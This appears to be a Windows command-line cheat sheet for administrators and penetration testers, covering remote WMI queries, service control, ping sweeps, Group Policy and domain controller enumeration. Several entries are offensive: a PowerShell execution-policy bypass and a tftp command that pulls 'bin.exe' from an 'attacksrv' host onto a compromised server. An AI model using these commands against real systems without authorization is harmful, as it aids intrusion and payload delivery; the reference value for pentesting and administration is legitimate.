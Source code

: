 C:\> wmic /node:remotebox nicconfig where Index=1 call EnableStatic ("192.168.1.4"), ("255.255.255.0")
Bypass powershell execution policy restrictions

PS C:\> powershell -ExecutionPolicy Bypass -Noninteractive -File .\lastboot.ps1
List running processes every second on a remote box

C:\> wmic /node:target process list brief /every:1
Remove /node:target for localhost

Get a list of running processes and their command line arguments on a remote system

C:\> wmic /node:target process get commandline, name
Remotely enable and start the Volume Shadow Copy Service

C:\> sc \\target config vss start= auto
C:\> sc \\target start vss
Ping multiple IPs from ips.txt & see live hosts

C:\>for /F %i in (ips.txt) do ping -n 1 %i | find "bytes="
Set global proxy in Windows to point to IE proxy

C:\> netsh winhttp import proxy source=ie
Enumerate list of drivers with complete path information

C:\> driverquery /FO list /v
View Group Policy Objects that have been applied to a system

Very useful during pentests

C:\> gpresult /z /h outputfile.html
Reset the WMI repository to what it was when the OS was installed

Very helpful if you have a corrupt repo

C:\> winmgmt /resetrepository
Create symbolic links in Windows Vista, 7 & higher

C:\> mklink <link> <target>
C:\> mklink D:\newlink.txt E:\thisexists.txt
Enable the tftp client in Vista & higher

C:\> ocsetup TFTP /quiet
Pull files to a compromised server:

C:\> tftp -i attacksrv get bin.exe
Obtain list of firewall rules on a local system

C:\> netsh advfi fi sh rule name=all
Can be combined with wmic for remote systems

Get name of current domain controller

C:\> set log
C:\> nltest /dcname:DOMAIN
Get list of all DCs:

C:\> nltest /dclist:DOMAIN
Look at content cached in kernel mode on IIS 7 and higher
